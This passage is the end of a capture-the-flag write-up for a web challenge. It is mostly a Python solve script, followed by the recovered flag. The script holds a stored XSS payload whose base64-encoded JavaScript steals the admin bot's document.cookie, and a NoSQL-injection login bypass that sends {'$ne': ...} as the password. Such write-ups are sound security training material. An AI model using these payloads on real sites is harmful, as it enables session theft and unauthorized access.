def update_bio(s):
    json_data={
        "&bio": "<iframe src='http://localhost:5000/render?bio=<iframe src=\"http://localhost:5000/render?bio=<script src=%27http://localhost:5000/static/users.js%27></script>%26js=eval(atob(%27ZmV0Y2goJ2h0dHA6Ly9sb2NhbGhvc3Q6NTAwMC9yZWdpc3RlcicsIHsKICBtZXRob2Q6ICdQT1NUJywKICBoZWFkZXJzOiB7CiAgICAnSG9zdCc6ICdsb2NhbGhvc3Q6NTAwMCcsCiAgICAnQ29udGVudC1MZW5ndGgnOiAnNDUnLAogICAgJ0FjY2VwdC1MYW5ndWFnZSc6ICdlbi1VUyxlbjtxPTAuOScsCiAgICAnVXNlci1BZ2VudCc6ICdNb3ppbGxhLzUuMCAoWDExOyBMaW51eCB4ODZfNjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMzQuMC4wLjAgU2FmYXJpLzUzNy4zNicsCiAgICAnQ29udGVudC1UeXBlJzogJ2FwcGxpY2F0aW9uL2pzb24nLAogICAgJ0FjY2VwdCc6ICcqLyonLAogICAgJ0FjY2VwdC1FbmNvZGluZyc6ICdnemlwLCBkZWZsYXRlLCBicicsCiAgICAnQ29ubmVjdGlvbic6ICdrZWVwLWFsaXZlJwogIH0sCiAgYm9keTogSlNPTi5zdHJpbmdpZnkoewogICAgJ3VzZXJuYW1lJzogYnRvYShkb2N1bWVudC5jb29raWUpLAogICAgJ3Bhc3N3b3JkJzogJ2NjY2NjY2NjJwogIH0pCn0pOwoK%27))\" name=\"admin\" />' />", 
        "bio": "hello from winky"
    }
    s.post(CHALL_URL + "update_bio", json=json_data)
    print(f"[*] Update bio successfully")

def report(s):
    json_data = {
        "name":"winky"
    }
    s.post(CHALL_URL + "report", json=json_data)
    print(f"[*] Report successfully")

def admin_login(s):
    username = "admin"
    password = {
        "$ne":"not_admin_real_password"
    }
    json_data = {
        "username": username,
        "password": password
    }
    s.post(CHALL_URL + "login", json=json_data)
    print(f"[*] Login successfully user {username}")

def get_flag(s):
    r = s.get(CHALL_URL + "api/users?name=X")
    data = json.loads(r.text)
    flag_username = data[0]['username']
    print(f"[*] Flag: " + base64.b64decode(flag_username).decode())

register(s)
login(s)
update_bio(s)
report(s)
admin_login(s)
get_flag(s)
```

Và ta có flag: 



`Flag: bi0sCTF{i_d0n't_f1nd_bugs!!_bug5_f1nd_m3:)}` 